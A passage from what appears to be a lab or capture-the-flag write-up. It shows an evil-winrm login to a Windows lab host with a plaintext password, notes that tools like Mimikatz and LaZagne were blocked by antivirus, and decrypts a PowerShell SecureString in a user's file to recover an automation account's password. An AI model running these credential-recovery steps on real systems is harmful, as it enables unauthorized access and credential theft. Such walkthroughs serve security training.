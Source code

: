 - So go ahead and login using the `evil-winrm` utility as user `Tracy.White` which should be successful.

```bash
❯ evil-winrm -i 192.168.165.30 -u Tracy.White -p zqwj041FGX
                                        
Evil-WinRM shell v3.5
                                        
--SNIP--
                                        
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tracy.white\Documents> whoami
narasec\tracy.white
```


- Now we have to load Post-Exploitation tools like `WinPEAS`, `Snaffler`, `LaZagne`, `MimiKatz` etc to see what we have. However majority of this tools where blocked by AV so i started manual enumeration and found this `automation.txt` file.

```bash
*Evil-WinRM* PS C:\Users\tracy.white\Documents> dir


    Directory: C:\Users\tracy.white\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/30/2023   8:05 AM            373 automation.txt
```


- The content looked like a powershell secure string which is used to help protect confidential text.

```bash
*Evil-WinRM* PS C:\Users\tracy.white\Documents> type automation.txt
Enrollment Automation Account

01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b
```

- To decrypt this we can replicate the following steps

```bash
*Evil-WinRM* PS C:\Users\tracy.white\Documents> $user = "Enrollment Automation Account" # Not necessary a valid user if you don't have one

*Evil-WinRM* PS C:\Users\tracy.white\Documents> $pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b" | ConvertTo-SecureString

*Evil-WinRM* PS C:\Users\tracy.white\Documents> $cred = New-Object System.Management.Automation.PSCredential($user, $pass)

*Evil-WinRM* PS C:\Users\tracy.white\Documents> $cred.GetNetworkCredential() | fl


UserName       : Enrollment Automation Account
Password       : hHO_S9gff7ehXw
SecurePassword : System.Security.SecureString
Domain         :
```